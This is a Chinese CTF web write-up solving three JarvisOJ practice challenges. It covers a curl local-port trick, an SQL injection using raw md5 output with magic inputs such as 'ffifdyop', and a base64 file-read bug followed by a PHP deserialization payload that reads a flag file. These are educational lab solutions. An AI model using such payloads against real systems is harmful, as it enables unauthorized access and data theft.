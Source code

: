 # 对CTF-Web的记录与总结 #

### 使用本地的某个端口号对网址进行访问 ###

[例题:JarvisOJ PORT51](http://web.jarvisoj.com:32770/)

curl 参数 --local-port RANGE  强制使用的本地端口号

***payload***
`curl --local-port 51 http://web.jarvisoj.com:32770/`

(在做题的时候貌似出了问题 没有回显)

### php中md5($str,true)注入 ###

[例题:JarvisOJ Login](http://web.jarvisoj.com:32772/)

```
Hint: "select * from `admin` where password='".md5($pass,true)."'"
```

关键在于md5函数的第二个参数为true

- TRUE - 原始 16 字符二进制格式
- FALSE - 默认 32 字符十六进制数

例如输入为: `asdf` 时

得到md5为 `912ec803b2ce49e4a541068d495ab570` 这是false的情况

得到的16字符为 `.È²ÎIä¥AIZµp` 这是true的情况

当转换出的字符能够进行sql注入时即可提取flag

当输入为`129581926211651571912466741651878684928`或`ffifdyop`均能得到flag

```
129581926211651571912466741651878684928
md5: 06da5430449f8f6f23dfc1276f722738
ascii: ÚT0Do#ßÁ'or'8
```

```
ffifdyop
md5: 276f722736c95d99e921722cf9ed621c
ascii: 'or'6É]é!r,ùíb
```

### php反序列化 ###

[例题:JarvisOJ 神盾局的秘密](http://web.jarvisoj.com:32768/)

`<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>`

显然存在文件读取漏洞，并且文件名进行了base64加密

尝试对showimg.php进行读取，构造payload

`http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA=`

得到空白页面，查看源代码

```
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```

限制了对上级目录以及pctf的直接读取，尝试读取index.php，构造payload

`http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw`

查看源代码

```
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
```

查看shield.php源代码
```
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```

利用反序列化构造payload去读取pctf.php

>对象（object）通常被序列化为：
`O:<length>:"<class name>":<n>:{<field name 1><field value 1><field name 2><field value 2>...<field name n><field value n>}`

[参考文章](http://www.neatstudio.com/show-161-1.shtml)

因此在构造payload时要写上file name 和 value

payload: `http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}`

flag在源代码中